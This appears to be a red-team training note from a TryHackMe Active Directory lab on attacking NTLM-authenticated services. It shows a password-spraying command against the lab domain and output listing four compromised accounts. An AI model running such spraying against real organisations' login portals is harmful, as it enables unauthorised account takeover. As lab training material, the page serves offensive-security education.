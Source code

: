# NTLM authenticated services

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. 
NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication 
mechanism is used by the services on a network. And some services that use NetNTLM may also be exposed to the 
internet. Examples:

* Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
* Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
* Exposed VPN endpoints that were integrated with AD.
* Web applications that are internet-facing and make use of NetNTLM.

| ![Downgrade to ntlm](../../_static/images/outlook-ntlm-downgrade.png) |
|:--:|
| The user is now either granted access or denied access, authorisation is performed on the <br>Exchange server with consultation of the msg.target.com Domain Controller. |

NTLM is generally considered insecure because it uses outdated cryptography that is 
[vulnerable to several modes of attacks](red-network:docs/ad/vulns). NTLM is also vulnerable to 
pass-the-hash and brute-force attacks.

## Password spraying

Most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, we 
need to perform a password spraying attack.

We could use tools such as Hydra to assist with the password spraying attack. The room uses a script named 
`ntlm_passwordspray.py`.

The core function takes a suggested password and a URL to target as input and attempts to authenticate to the URL 
with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we 
can determine if the credential pair is valid or not. If the credential pair is valid, the application responds 
with a 200 HTTP (OK) code. If the pair is invalid, the application returns a 401 HTTP (Unauthorised) code. 

The parameters:

* `userfile` - Textfile containing usernames (`usernames.txt`)
* `fqdn` - Fully qualified domain name associated with the organisation we are attacking (`za.tryhackme.com`)
* `password` - The password we want to use for our spraying attack (`Changeme123`)
* `attackurl` - The URL of the application that supports Windows Authentication (`http://ntlmauth.za.tryhackme.com`)

```text
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

Results:

```text
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

